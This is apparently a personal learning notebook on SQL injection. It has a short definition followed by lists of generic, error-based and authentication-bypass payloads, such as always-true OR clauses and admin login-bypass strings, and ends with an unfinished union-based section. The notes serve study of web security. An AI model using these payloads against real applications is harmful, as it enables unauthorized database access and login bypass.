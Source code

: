     # Klein
    Calvin Security Learning stuff lol
    NOTEBOOK sorta, slightly unorganized, catagorized but could be neater.

    "-" is a makeshift bulletpoint, not apart of whats typed after. eg 
    -  'lol = "'lol" 
    and not =/=
    "-  'lol"







    #SQL Injection

    SQLi is a security weakness which allows attackers to control and applications database and allowing them to,
    for instance modify data or change the database applications behaviour by tricking the database into allowing 
    sending SQL commands.

    Some I like to give a crack are;




Generic SQL Injection Payloads

- ' or '
- OR "" = "
- '=0--+
- 'LIKE'
- - ' AND id IS NULL; --
- '''''''''''''UNION SELECT '2


Generic Error Based Payloads

- OR 1=1
- OR 1=1-- 
- OR 3409=3409 AND ('pytW' LIKE 'pytW
- %' AND 8310=8310 AND '%'='
- AND 1=1 AND '%'='


Authentication Based Payloads

- admin') or ('1'='1'--
- or true--
- admin') or ('1'='1'#
- ' or ''&'
- admin') or ('1'='1'/
 
 
Ordre and Union based palloads

  Open Linux VM and check which ones had the most promising outcomes based on previous use cases Novemeber calvin
  
-
-
-
-
-






































